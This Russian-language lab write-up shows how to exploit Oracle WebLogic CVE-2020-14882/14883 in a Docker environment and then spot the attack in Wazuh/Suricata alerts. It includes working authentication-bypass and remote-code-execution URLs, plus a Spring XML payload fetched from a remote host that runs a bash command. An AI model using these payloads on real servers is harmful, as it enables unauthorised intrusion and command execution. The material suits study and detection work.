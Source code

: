 # CVE-2020-14882/3

### Материалы:

* [https://nvd.nist.gov/vuln/detail/CVE-2020-14882](https://nvd.nist.gov/vuln/detail/CVE-2020-14882)
* [https://www.opencve.io/cve/CVE-2020-14882](https://www.opencve.io/cve/CVE-2020-14882)
* [https://nvd.nist.gov/vuln/detail/CVE-2020-14883](https://nvd.nist.gov/vuln/detail/CVE-2020-14883)
* [https://www.opencve.io/cve/CVE-2020-14883](https://www.opencve.io/cve/CVE-2020-14883)

Oracle WebLogic Server — ведущий в отрасли сервер приложений для создания корпоративных приложений с использованием стандартов Java EE.

CVE-2020-14882 позволяет пользователям обходить аутентификацию в компоненте консоли администратора, а CVE-2020-14883 позволяет аутентифицированному пользователю выполнять любую команду в этой консоли.

### Эксплуатация уязвимости

Для запуска уязвимой среды выполните команду:

```
docker compose up -d
```

После запуска по адресу http://ваш-ip:7001 будет доступна страница входа в консоль администратора

<figure><img src="../../.gitbook/assets/cve-2020-14882(1).png" alt=""><figcaption></figcaption></figure>

Для обхода аутентификации и реализации CVE-2020-14882 вставьте соответствующий URL в поисковую строку

```
http://ваш-ip:7001/console/css/%252e%252e%252fconsole.portal
```

<figure><img src="../../.gitbook/assets/cve-2020-14882(2).png" alt=""><figcaption></figcaption></figure>

После реализации уязвимости нам не хватает привилегий для загрузки файлов

<figure><img src="../../.gitbook/assets/cve-2020-14882(3) (1).png" alt=""><figcaption></figcaption></figure>

#### Метод 1

Обойти это можно, вставив соответствующий URL в поисковую строку с полезно нагрузкой "touch /tmp/success1"

```
http://ваш-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/success1');")
```

<figure><img src="../../.gitbook/assets/cve-2020-14882(4).png" alt=""><figcaption></figcaption></figure>

#### Метод 2

Выполнить удаленную команду можно с помощью обращения к .xml файлу, содержащему внутри себя полезную нагрузку

Для этого вставьте следующее содержимое в ваш файл и сохраните его

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value><![CDATA[touch /tmp/success2]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

Затем с помощью Python3 поднимаем http-сервер на удаленной машине с помощью команды `python3 -m http.server <port>`

Затем вставляем следующий URL в адресную строку

```
http://ваш-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://удаленный-ip:порт/rce.xml")
```

После отправки будет выполнено содержимое .xml файла, в данном случае будет создан файл /tmp/success2

<figure><img src="../../.gitbook/assets/cve-2020-14882(5).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/cve-2020-14882(6).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><img src="../../.gitbook/assets/cve-2020-14882(7).png" alt=""><figcaption></figcaption></figure>
